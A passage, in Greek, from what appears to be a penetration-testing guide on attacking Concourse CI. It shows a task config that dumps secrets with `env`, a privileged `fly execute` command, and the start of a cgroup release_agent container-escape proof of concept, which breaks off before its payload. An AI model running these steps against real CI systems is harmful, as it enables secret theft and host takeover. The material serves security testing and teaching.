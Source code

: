 Με τη **τροποποίηση/δημιουργία** ενός νέου pipeline θα μπορείτε να:

* **Κλέψετε** τα **μυστικά** (μέσω της εμφάνισής τους ή μπαίνοντας μέσα στο container και εκτελώντας `env`)
* **Αποδράσετε** στον **κόμβο** (δίνοντάς σας αρκετά προνόμια - `privileged: true`)
* Απαριθμήστε/Καταχραστείτε το **metadata** endpoint του cloud (από το pod και από τον κόμβο)
* **Διαγράψτε** το δημιουργημένο pipeline

#### Εκτέλεση Προσαρμοσμένης Εργασίας

Αυτό είναι παρόμοιο με την προηγούμενη μέθοδο, αλλά αντί να τροποποιήσετε/δημιουργήσετε ένα ολόκληρο νέο pipeline, μπορείτε απλά να **εκτελέσετε μια προσαρμοσμένη εργασία** (που πιθανότατα θα είναι πολύ πιο **αόρατη**):

```yaml
# For more task_config options check https://concourse-ci.org/tasks.html
platform: linux
image_resource:
type: registry-image
source:
repository: ubuntu
run:
path: sh
args:
- -cx
- |
env
sleep 1000
params:
SUPER_SECRET: ((super.secret))
```

```bash
fly -t tutorial execute --privileged --config task_config.yml
```

#### Απόδραση στον κόμβο από προνομιούχα εργασία

Στα προηγούμενα τμήματα είδαμε πώς να **εκτελέσουμε μια προνομιούχα εργασία με το concourse**. Αυτό δεν δίνει στον container ακριβώς την ίδια πρόσβαση με την προνομιούχα σημαία σε ένα docker container. Για παράδειγμα, δεν θα δείτε τη συσκευή αρχείου συστήματος του κόμβου στο /dev, οπότε η απόδραση μπορεί να είναι πιο "πολύπλοκη".

Στο παρακάτω PoC θα χρησιμοποιήσουμε το release\_agent για να αποδράσουμε με μερικές μικρές τροποποιήσεις:

```bash
# Mounts the RDMA cgroup controller and create a child cgroup
# If you're following along and get "mount: /tmp/cgrp: special device cgroup does not exist"
# It's because your setup doesn't have the memory cgroup controller, try change memory to rdma to fix it
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release


# CHANGE ME
# The host path will look like the following, but you need to change it:
host_path="/mnt/vda1/hostpath-provisioner/default/concourse-work-dir-concourse-release-worker-0/overlays/ae7df0ca-0b38-4c45-73e2-a9388dcb2028/rootfs"

## The initial path "/mnt/vda1" is probably the same, but you can check it using the mount command:
#/dev/vda1 on /scratch type ext4 (rw,relatime)
#/dev/vda1 on /tmp/build/e55deab7 type ext4 (rw,relatime)
#/dev/vda1 on /etc/hosts type ext4 (rw,relatime)
#/dev/vda1 on /etc/resolv.conf type ext4 (rw,relatime)

```